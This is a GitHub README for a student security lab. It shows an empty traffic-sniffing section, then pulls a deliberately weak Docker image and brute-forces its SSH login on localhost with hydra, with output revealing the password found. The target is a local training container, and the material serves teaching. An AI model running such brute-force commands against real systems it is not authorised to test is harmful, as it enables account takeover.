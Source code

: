 # Attack is the best defense

```bash
88                                88        88
88                                88        ""
88                                88
88,dPPYba,  ,adPPYYba,  ,adPPYba, 88   ,d8  88 8b,dPPYba,   ,adPPYb,d8
88P'    "8a ""     `Y8 a8"     "" 88 ,a8"   88 88P'   `"8a a8"    `Y88
88       88 ,adPPPPP88 8b         8888[     88 88       88 8b       88
88       88 88,    ,88 "8a,   ,aa 88`"Yba,  88 88       88 "8a,   ,d88
88       88 `"8bbdP"Y8  `"Ybbd8"' 88   `Y8a 88 88       88  `"YbbdP"Y8
                                                            aa,    ,88
                                                             "Y8bbdP"
```

# General

* Network basics
* Docker

# Environment

<!-- ubuntu -->
[![Ubuntu](https://img.shields.io/static/v1?label=&message=Ubuntu&color=E95420&logo=Ubuntu&logoColor=E95420&labelColor=2F333A)](https://ubuntu.com/) <!-- bash -->
[![Bash](https://img.shields.io/static/v1?label=&message=GNU%20Bash&color=4EAA25&logo=GNU%20Bash&logoColor=4EAA25&labelColor=2F333A)](https://www.gnu.org/software/bash/) <!-- vim -->
[![Vim](https://img.shields.io/static/v1?label=&message=Vim&color=019733&logo=Vim&logoColor=019733&labelColor=2F333A)](https://www.vim.org/) <!-- vs code -->
[![VS Code](https://img.shields.io/static/v1?label=&message=Visual%20Studio%20Code&color=5C2D91&logo=Visual%20Studio%20Code&logoColor=5C2D91&labelColor=2F333A)](https://code.visualstudio.com/)

* OS: ``ubuntu``
* Shell: ``bash``
* IDE: ``vim``, ``VS Code``
* ``ssh``
* ``tcpdump``
* ``hydra``
* ``telnet``
* ``docker``

> https://www.tcpdump.org/

## Sniffing unencrypted traffic 

> Sniffing over ``ubuntu`` 20.04 LTS booting on Linux 4.26. generic

> sniffing unencrypted traffic and getting information out of it.

```bash

```

## Brute attack force

Pull docker image

``docker pull sylvainkalache/264-1```

Run the image

```bash
ralex@ralex-nb:~$ docker run -p 2222:22 -d -ti sylvainkalache/264-1
f6e64ceecab2c913fac1a15f2f2f66669dac8fd6b8f9a563ae30810f19852719
```

```bash
ralex@ralex-nb:~$ docker ps
CONTAINER ID   IMAGE                  COMMAND                  CREATED              STATUS              PORTS                                   NAMES
f6e64ceecab2   sylvainkalache/264-1   "/bin/sh -c 'service…"   About a minute ago   Up About a minute   0.0.0.0:2222->22/tcp, :::2222->22/tcp   quizzical_curran
ralex@ralex-nb:~$ 
```

brute force docker with hydra

``hydra -l sylvain -P passlist.txt ssh://127.0.0.1:2222``

```bash
ralex@ralex-nb:/media/ralex/2a17a9fd-dea9-4940-b67e-2348aa63bb5f/hack$ hydra -l sylvain -P ignis-1M.txt ssh://127.0.0.1:2222
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-25 23:59:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1000000 login tries (l:1/p:1000000), ~62500 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 999824 to do in 93:37h, 16 active
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 5 final worker threads did not complete until end.
[ERROR] 5 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-01-26 00:01:20
```

## Author

<!-- twitter -->
[![Twitter](https://img.shields.io/twitter/follow/ralex_uy?style=social)](https://twitter.com/ralex_uy) <!-- linkedin --> [![Linkedin](https://img.shields.io/badge/LinkedIn-+21K-blue?style=social&logo=linkedin)](https://www.linkedin.com/in/ronald-rivero/) <!-- github --> [![Github](https://img.shields.io/github/followers/ralexrivero?style=social)](https://github.com/ralexrivero/) <!-- vagrant --> [![Vagrant](https://img.shields.io/static/v1?label=&message=Vagrant%20Profile&color=1868F2&logo=vagrant&labelColor=2F333A)](https://app.vagrantup.com/ralexrivero) <!-- docker --> [![Docker](https://img.shields.io/static/v1?label=&message=Docker%20Profile&color=2496ED&logo=Docker&labelColor=2F333A)](https://hub.docker.com/u/ralexrivero)